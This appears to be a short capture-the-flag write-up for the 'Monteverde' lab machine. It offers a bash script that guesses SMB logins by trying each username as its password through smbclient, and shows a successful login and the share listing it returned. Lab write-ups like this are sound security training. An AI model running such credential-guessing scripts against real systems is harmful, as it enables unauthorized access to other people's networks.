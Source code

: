One of the common bad practices not mentioned in the article is the lazy sysadmin that sets the service account password the same as the username.

To quickly check, this I wrote a small bash script to authenticate with the password the same as the username

my_smbc_pass_guess.sh:

```
root@kali:/monteverde# cat my_smbc_pass_guess.sh 
#!/bin/bash

if [ "$#" -lt "2" ]; 
then
    echo "Usage: sh my_smbc_pass_guess.sh <ip_address> <path_to_usernames_file> [password]"  
    echo "Examples: "
    echo "sh my_smbc_pass_guess.sh 127.0.0.1 /root/usernames.txt"
    echo "sh my_smbc_pass_guess.sh 127.0.0.1 /root/usernames.txt password"
    exit 2
fi

ip=$1 # target ip address
users=$2 # file path to usernames

password="test"
echo $password

for user in $(cat $users)
do
# if 3rd arguement  is not supplied, runs with username as password
    if [ "$#" -eq "3" ];then
            password=$3
    elif [ "$#" -eq 2 ]; then
            password=$user
    fi
    echo "Trying with username:password ..." $user ":" $password
    smbclient -U=$user%$password -L \\\\$ip\\
done


Trying with username:password ... SABatchJobs : SABatchJobs

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk      
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        users$          Disk      
```
